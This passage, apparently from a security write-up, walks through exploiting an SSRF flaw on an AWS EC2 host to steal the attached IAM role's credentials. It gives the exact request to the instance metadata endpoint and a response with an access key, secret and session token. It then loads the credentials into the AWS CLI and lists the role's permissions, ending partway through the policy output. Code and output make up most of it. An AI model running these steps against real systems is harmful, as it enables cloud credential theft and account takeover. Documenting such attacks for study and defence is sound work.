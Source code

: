 Other vulnerabilities may be present but to fully exploit the SSRF without querying other LAN services an attacker may try to dump the IAM role attached to the EC2 (if the vulnerable service is inside an EC2 and IMDSv2 is not enabled).

```bash
http <IP>:3333?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/cloudformation-deployer


HTTP/1.1 200 OK
Content-Length: 21
Content-Type: text/plain; charset=utf-8
Date: Tue, 12 Jul 2022 15:19:55 GMT

Hello!
{
    "Code": "Success",
    "Expiration": "2022-07-12T21:46:51Z",
    "LastUpdated": "2022-07-12T15:32:28Z",
    "AccessKeyId": "ASIAWFKZ7XCLEKJOCQNW",
    "SecretAccessKey": "sR2VLQXN1E8RwRVrJ04nocheQhh9tOhr2hMeNGMN",
    "Token": "IQoJb3JpZ2luX2Vj[..]f2GNuU8",
    "Type": "AWS-HMAC"
}
```

`AccessKeyId`, `SecretAccessKey` and `Token` are the credential used by the role attached in the EC2. An attacker may use them to connect to the victim AWS account.

```bash
unset AWS_SECRET_ACCESS_KEY; unset AWS_ACCESS_KEY_ID; unset AWS_SESSION_TOKEN

export AWS_ACCESS_KEY_ID="ASIAIOSFODNN7EXAMPLE"
export AWS_SECRET_ACCESS_KEY="wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY"
export AWS_SESSION_TOKEN="token"


aws sts get-caller-identity

{
    "UserId": "AROAWFKZ7XCLA4HFKPRYA:i-07dbd115f9cdb076b",
    "Account": "111111111111",
    "Arn": "arn:aws:sts::111111111111:assumed-role/cloudformation-deployer/i-07dbd115f9cdb076b"
}
```

From now on the attacker will not interact with the EC2 but only with AWS api endpoints.

The credentials are now loaded into a session and can be used with awscli to perform operation on the AWS account with the permissions of the role `cloudformation-deployer`.

The role has the following permissions:

```bash
aws iam get-role-policy --role-name cloudformation-deployer --policy-name EC2-CloudFormationDeployerPolicy

{
    "RoleName": "cloudformation-deployer",
    "PolicyName": "EC2-CloudFormationDeployerPolicy",
    "PolicyDocument": {
        "Statement": [
            {
                "Action": [
                    "cloudformation:CreateStack",
                    "iam:ListRolePolicies",
                    "iam:GetRolePolicy",
                    "cloudformation:DescribeStacks"
```